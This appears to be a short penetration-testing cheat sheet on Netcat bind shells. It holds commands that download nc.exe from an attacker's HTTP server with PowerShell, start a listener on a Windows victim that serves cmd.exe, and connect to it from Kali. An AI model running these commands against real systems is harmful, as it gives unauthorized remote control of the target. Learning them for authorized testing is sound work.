

# Bind Shells

## Explanation

- A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.

- A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.



## Technics

### Preparation on the kali machine

1. Download netcat.exe here : <https://github.com/int0x33/nc.exe/>

2. Start simple python http server :

```text
python3 -m http.server 80
```

### Preparation on the victim machine (Windows)

3. Download netcat.exe file with powershell :

```text
Invoke-WebRequest -Uri "http://<kali-ip>/nc.exe" -OutFile "C:\Users\Administrator\Downloads"
```

4. Execute listener on victime machine :

```text
nc.exe -nvlp 1234 -e cmd.exe
```

### Run bind shell

On the kali machine, run nc connect :

```text
nc -nv <victim-ip> 1234
```
